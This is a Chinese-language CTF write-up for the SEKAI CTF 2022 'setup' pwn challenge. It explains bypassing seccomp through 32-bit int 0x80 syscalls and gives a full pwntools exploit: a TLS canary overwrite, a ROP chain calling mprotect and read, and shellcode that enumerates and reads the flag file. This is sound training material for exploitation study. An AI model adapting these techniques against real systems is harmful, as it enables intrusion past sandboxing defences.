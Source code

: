 # setup

> Category: PWN 
>
> Date: 2022/10/11
>
> Authorship: SEKAI CTF 2022

## 0x00 64位下的int 0x80

在64位程序下，使用系统调用的方法是syscall，但是可以直接使用int 0x80来调用32位的系统调用号

比较常见的几个：

| sys code | x64 (64 bits) | x86 (32 bits) |
| -------- | ------------- | ------------- |
| 0x05     | fstat         | open          |
| 0xc0     | lgetxattr     | mmap2         |
| 0x8d     | getpriority   | getents       |

## 0x01 题目分析

![](https://pic1.imgdb.cn/item/6345308d16f2c2beb13e47f6.png)

保护全开的栈溢出，绕过canary的方法为直接修改tls里canary的值

之后rop调用mprotect写修改权限然后sys read写shellcode

之后再写的shellcode里利用int 0x80来绕过seccomp白名单

> 需要注意的是，这题flag文件名未知，需要调用getents来获得文件名

## 0x02 exp

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'
libc = ELF('./libc-2.34.so')
elf = ELF("./setup")

local = 1

if local:
    p = process("./setup")    
else:
    p = remote("","")

def debug(p,cmd=""):
    if local:
        gdb.attach(p,cmd)
    else:
        pass


p.sendlineafter(">", "1")
p.sendlineafter("to:", "a"*0x18)
p.sendlineafter(">", "1")

p.recvuntil("a"*0x18)
libc.address = u64(p.recv(6).ljust(8,'\x00'))-0x22aa0a
log.info("libc_base ==>"+hex(libc.address))
tls_canary = libc.address - 0x2898
log.info("tls_canary ==>"+hex(tls_canary))
pop_rax = 0x0000000000049f10 + libc.address
pop_rdx = 0x0000000000120272 + libc.address
pop_rdi = 0x000000000002e6c5 + libc.address
pop_rsi = 0x0000000000030081 + libc.address
syscall = 0x0000000000095196 + libc.address

payload = flat(
    tls_canary,
    'A'*0x58,
    pop_rdi, 0,
    syscall
)

p.sendafter("name:", payload)
payload = flat(
    'A'*8,
    'C'*0x21d0,
)
payload += flat(
    # mprotect
    pop_rax, 0xa,
    pop_rdi, libc.address + 0x21a000,
    pop_rsi, 0x1000,
    pop_rdx, 7,
    syscall,

    # read(0,libc.address + 0x21a000,0x1000)
    pop_rdi, 0,
    pop_rsi, libc.address + 0x21a800,
    pop_rdx, 0x1000,
    pop_rax, 0,
    syscall,

    # exec shellcode
    libc.address + 0x21a801
)


debug(p,"b *"+hex(libc.address + 0x21a800))
# pause()
p.sendafter("Data:", payload)
shellcode = asm("""
    // x86	arg[0]=ebx arg[1]=ecx arg[2]=edx arg[3]=esi	arg[4]=edi	arg[5]=ebp
    //  mmap2(0x500000, 0x5000, 3, 1048610, 0, 0)
    mov rax, 0xc0
    mov rbx, 0x500000
    mov rcx, 0x5000
    mov rdx, 3
    mov rsi, 1048610
    xor rdi, rdi
    xor rbp, rbp
    int 0x80

    mov rsp,0x500a00

    // 5 ==> 64bit:fstat   32bit:open
    // open(".", 0, 0)
    mov rax, 5
    push 0x2e 
    mov rbx, rsp
    xor rcx, rcx
    int 0x80

    // getents(fd1, $rsp, 0x1337)
    mov rbx, rax
    mov rax, 0x8d
    mov rcx, rsp
    mov rdx, 0x1337
    int 0x80

    // rsp+0x7e ==>  flag.txt
    mov rbx, rsp
    add rbx, 0x7e

    // open
    mov rax, 5
    xor rcx, rcx
    xor rdx, rdx
    int 0x80

    // RW
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 0x100
    xor rax, rax
    syscall

    mov rdi, 1
    mov rax, 1
    syscall
""", arch='amd64')
sleep(1)
p.sendafter(b'Hello World Setup Wizard\n\x1b[0m', '\x90'+shellcode)

# debug(p)
p.interactive()
````



